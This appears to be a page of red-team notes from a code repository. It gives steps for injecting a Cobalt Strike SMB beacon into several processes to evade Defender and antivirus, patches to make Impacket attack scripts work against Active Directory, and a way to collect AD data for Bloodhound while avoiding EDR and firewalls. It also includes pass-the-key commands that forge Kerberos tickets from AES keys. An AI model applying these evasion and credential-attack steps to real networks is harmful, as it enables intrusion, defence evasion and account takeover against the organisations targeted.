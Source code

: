 SMB Pipe injection into parent process (Defender Bypass) Cobalt Strike

```
1. Make SMB Beacon - random name
2. Run payload inside the target host
2. Than inject PID x64 PIPENAME_BEACON
3. And then inject several times with chain into different process (svchost, systemtray, etc) to bypass AV
```


### Impacket bugs mitigation:

If you have error:

```
File "/usr/local/lib/python3.9/dist-packages/impacket/ldap/ldap.py", line 244, in kerberosLogin
raise LDAPSessionError(
impacket.ldap.ldap.LDAPSessionError: Error in bindRequest -> strongerAuthRequired: 00002028: LdapErr: DSID-0C090259
```

than edit your tds.py find both lines defining the ctx: (and all impacket scripts)

```
ctx = SSL.Context(SSL.TLSv1_METHOD)
change it to
ctx = SSL.Context(SSL.TLSv1_2_METHOD)
```

If you have error:

```
File "C:\Python27\Scripts\GetUserSPNs.py", line 116, in getMachineName
raise 'Error while anonymous logging into %s'
```

Change line in GetUsersPNs.py to say this: (and all impacket scripts)

```
target = self.__kdcHost
instead of this:
target = self.getMachineName()
```

### Some bypass methods

To bypass protection systems such as NGFW, MSATA, EDR, AV:

**Bloodhound AD dumping:**

You can use an Active Directory dump through [ADExplorer](https://docs.microsoft.com/en-us/sysinternals/downloads/adexplorer). After generating a .dat dump file, you can parse it using [ADExplorerSnapshot.py](https://github.com/c3c/ADExplorerSnapshot.py) and upload it to the Bloodhound database.

**Pass the key attack:**
```
Get-KerberosAESKey -Password somepassword -Salt JAKI.LOCALsomeuser
getTGT.py jaki.local/someuser@scrm.local -aesKey 'yourkey'
# and then Kerberos authentication
```
